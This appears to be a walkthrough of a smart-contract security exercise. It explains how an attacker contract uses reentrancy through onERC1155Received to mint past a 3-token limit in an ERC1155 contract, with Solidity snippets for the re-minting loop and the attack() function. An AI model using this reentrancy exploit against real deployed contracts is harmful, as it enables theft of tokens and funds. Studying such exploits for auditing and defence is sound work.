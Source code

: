 In the updated exploit, the attacker contract (`Overmint1_ERC1155_Attacker`) takes advantage of the reentrancy vulnerability in the target contract (`Overmint1_ERC1155`):

1. Deploy both contracts, with the attacker contract receiving the target contract's address.
2. Call `attack()` in the attacker contract, which calls the `mint()` function in the target contract.
3. The target contract's `_mint()` function transfers a token to the attacker contract, triggering the `onERC1155Received()` function.

```solidity
while (target.success(address(this), TOKENID) == false) {
    console.log("are we done?:", target.success(address(this), TOKENID));
    target.mint(TOKENID, "");
}
```

4. The onERC1155Received() function repeatedly calls the target's mint() function until the attacker contract's balance for the token ID is 5.

5. The attack() function transfers the 5 tokens from the attacker contract to the user (msg.sender) using the target contract's safeTransferFrom() function.

```solidity
function attack() external {
    console.log("Attack Started");
    target.mint(TOKENID, "");

    console.log("Finished attack, now send tokens to attacker address - safeTransferFrom");
    target.safeTransferFrom(address(this), msg.sender, TOKENID, 5, "");
}
```

The exploit successfully bypasses the intended 3-token limit, and the attacker contract ends up with a balance of 5 tokens.
